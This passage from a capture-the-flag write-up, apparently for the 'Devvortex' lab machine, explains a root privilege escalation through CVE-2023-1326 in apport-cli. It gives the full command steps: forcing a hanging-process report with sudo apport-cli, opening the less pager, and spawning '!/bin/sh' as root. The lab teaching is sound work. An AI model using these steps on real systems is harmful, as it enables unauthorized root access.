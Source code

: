 
Looking deeper into this I found out that **apport-cli** acts like less when doing something it wasn't inteded for. This means the [GTFOBIN](https://gtfobins.github.io/gtfobins/less/) entree of less would also be applicable. However when trying to run this it will say no pending crash reports. This means we need to force a crash report before we can actually try to abuse this.

for more info regarding this vulnerability check the [cve](https://nvd.nist.gov/vuln/detail/CVE-2023-1326)

We can force a crash by first starting a process in the background i'll make a process with sleep as this won't impact the system too much

```
sleep 100000 &\
```

This gave us the **PID 1978**

![Create sleep](/assets/img/Devvortex/Devvortex_09.png)

Next up we attack **apport-cli** to this process with the **--hanging** parameter.I used this parameter because sleep looks like a hanging process because its just seemingly stuck.

```
sudo /usr/bin/apport-cli -P 1978 --hanging
```
This opens the following window. Here we press the **V** button because this will open **Less** as sudo.

![Apport-cli window](/assets/img/Devvortex/Devvortex_10.png)

Then fill in !/bin/sh in the prompt below

```bash
!/bin/sh
```

![Apport-cli window](/assets/img/Devvortex/Devvortex_11.png)

After pressing enter you will be taken into a root shell

![Root shell](/assets/img/Devvortex/Devvortex_12.png)
